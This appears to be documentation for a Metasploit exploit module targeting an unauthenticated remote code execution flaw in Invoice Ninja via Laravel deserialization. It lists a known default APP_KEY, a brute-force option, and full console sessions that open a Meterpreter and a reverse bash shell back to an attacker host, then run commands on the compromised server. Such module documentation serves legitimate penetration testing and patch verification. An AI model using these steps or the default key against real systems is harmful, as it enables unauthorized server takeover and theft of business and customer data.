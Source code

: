 ## Vulnerable Application
Invoice Ninja is a free invoicing software for small businesses, based on the PHP framework Laravel.
A Remote Code Execution vulnerability in Invoice Ninja (>= `5.8.22` <= `5.10.10`) allows remote unauthenticated
attackers to conduct PHP deserialization attacks via endpoint `/route/<hash>` which accepts a Laravel
ciphered value which is unsafe unserialized, if an attacker has access to the secret `APP_KEY`.
As it allows remote code execution, adversaries could exploit this flaw to execute arbitrary commands,
potentially resulting in complete system compromise, data exfiltration, or unauthorized access
to sensitive information.

The following release was tested.
* Invoice Ninja `5.10.10` on Ubuntu 22.04

## Installation steps to install Invoice Ninja on a self-hosted platform
`wget https://github.com/invoiceninja/dockerfiles/archive/refs/tags/5.8.22.zip`

`unzip 5.8.22.zip`

`cd dockerfiles-5.8.22`

Replace inside `docker-compose.yml`

FROM `image: invoiceninja/invoiceninja:5` TO `image: invoiceninja/invoiceninja:5.8.22`

Replace in `env`
`APP_KEY=base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=`

Then, execute `docker-compose up`
## Verification Steps
- [ ] Start `msfconsole`
- [ ] `use exploit/linux/http/linux/http/invoiceninja_uauth_rce_cve_2024_55555`
- [ ] `set rhosts <ip-target>`
- [ ] `set rport <port>`
- [ ] `set lhost <attacker-ip>`
- [ ] `set target <0=PHP Command, 1=Unix/Linux Command>`
- [ ] `exploit`
- [ ] you should get a `reverse shell` or `Meterpreter` session depending on the `payload` and `target` settings

## Options
### APP_KEY
This option is required if the BRUTE_FORCE option is not used.
It is the Laravel APP_KEY with a default key: `base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=`.

### BRUTEFORCE
This option is optional and is a text file with a list of APP_KEYs, one per line for a bruteforce attack.

## Scenarios
### Invoice Ninja 5.10.10 on Ubuntu 22.04 -  PHP Command target
Attack scenario: use the default Laravel APP_KEY preset in the option APP_KEY.
```msf
msf6 > use modules/exploits/linux/http/invoiceninja_unauth_rce_cve_2024_55555
[*] Using configured payload php/meterpreter/reverse_tcp
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set rhosts 192.168.201.6
rhosts => 192.168.201.6
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set lhost 192.168.201.8
lhost => 192.168.201.8
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. Invoice Ninja 5.10.10
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the XSRF_TOKEN inside the cookie.
[*] Grabbing the cookie with the XSRF-TOKEN.
[+] APP_KEY is valid: base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=
[+] Unciphered value: e60eab8287b88f834312505e582750ae6f95a84b|6IWTnJv2f3lL1nbKRbl6LwJixPeRF5grQVTFTIuB
[*] Generate an encrypted serialization payload with our cracked APP_KEY.
[*] Executing PHP for php/meterpreter/reverse_tcp
[*] Sending stage (40004 bytes) to 192.168.201.6
[*] Meterpreter session 1 opened (192.168.201.8:4444 -> 192.168.201.6:60120) at 2025-02-23 09:47:28 +0000

meterpreter > getuid
Server username: www-data
meterpreter > sysinfo
Computer    : cuckoo
OS          : Linux cuckoo 5.15.0-131-generic #141-Ubuntu SMP Fri Jan 10 21:18:28 UTC 2025 x86_64
Meterpreter : php/linux
meterpreter > pwd
/usr/share/nginx/invoiceninja/public
meterpreter >
```
###  Invoice Ninja 5.10.10 on Ubuntu 22.04 - Unix/Linux Command target
Attack scenario: use the BRUTEFORCE option with a list of APP_KEYS in a text file.
```msf
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set target 1
target => 1
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > set BRUTEFORCE /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt
BRUTEFORCE => /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt
msf6 exploit(linux/http/invoiceninja_unauth_rce_cve_2024_55555) > rexploit
[*] Reloading module...
[*] Started reverse TCP handler on 192.168.201.8:4444
[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking if 192.168.201.6:443 can be exploited.
[+] The target appears to be vulnerable. Invoice Ninja 5.10.10
[*] Lets check if the APP_KEY(s) is/are valid by decrypting the XSRF_TOKEN inside the cookie.
[*] Grabbing the cookie with the XSRF-TOKEN.
[*] Starting bruteforce decryption with APP_KEYS listed in /root/laravel-crypto-killer/wordlists/invoiceninja_default.txt.
[+] APP_KEY is valid: base64:RR++yx2rJ9kdxbdh3+AmbHLDQu+Q76i++co9Y8ybbno=
[+] Unciphered value: e60eab8287b88f834312505e582750ae6f95a84b|3epElAO1qNeckBzHOytBrNnGrvRJSyeCBsahBkSO
[*] Generate an encrypted serialization payload with our cracked APP_KEY.
[*] Executing Unix/Linux Command for cmd/unix/reverse_bash
[*] Command shell session 2 opened (192.168.201.8:4444 -> 192.168.201.6:60340) at 2025-02-23 09:49:15 +0000

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
uname -a
Linux cuckoo 5.15.0-131-generic #141-Ubuntu SMP Fri Jan 10 21:18:28 UTC 2025 x86_64 x86_64 x86_64 GNU/Linux
pwd
/usr/share/nginx/invoiceninja/public
```

## Limitations
No limitations.
